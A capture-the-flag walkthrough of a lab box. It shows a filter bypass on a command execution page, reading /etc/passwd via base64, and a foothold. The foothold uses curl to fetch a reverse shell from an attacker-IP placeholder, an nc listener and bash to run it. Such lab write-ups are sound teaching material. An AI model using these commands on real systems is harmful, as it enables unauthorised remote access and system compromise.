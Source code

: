 Found a directory called **/secret**.

![](3.png)

It seems that we can execute command, let's try running a command like `ls`.

![](4.png)

Wow. The note we found earlier had the following: `Anurodh told me that there is some filtering on strings being put in the command -- Apaar`. So there is a command filter, that's why we can't run `ls`. Let's try another command.

![](5.png)

I run the command `whoami` and got `www-data` as a result.

If i tried to printout the `/etc/passwd` file i get blocked.

We can try the command `base64` to encode the content of the file and decode it later.

![](6.png)

We managed to get the encoded content, now let's decode using [cyberchef](https://gchq.github.io/CyberChef/)

![](7.png)

Great! Now we can see every user in the system.

Next, let's print the `index.php` file of the command execution page in order to see the filters.

![](8.png)

![](9.png)

We can see every word that is being filtered. We can see that the `curl` command is not black listed, so we can try to upload a reverse shell.


# **Foothold**

First, let's make our reverse shell payload.

![](10.png)

Now setup an http server using python: `python3 -m http.server 80` in the same directory of the file. 

Next go to the command execution page and run `curl http://{attacker_ip}/shell.sh -o /tmp/shell.sh`. This command will upload our shell to the target system and pur it in /tmp directory since it is world writable.

Now set up a listener on the attacker machine with `nc -lvnp 1234`

Back to the command execution page and run `bash</tmp/shell.sh`
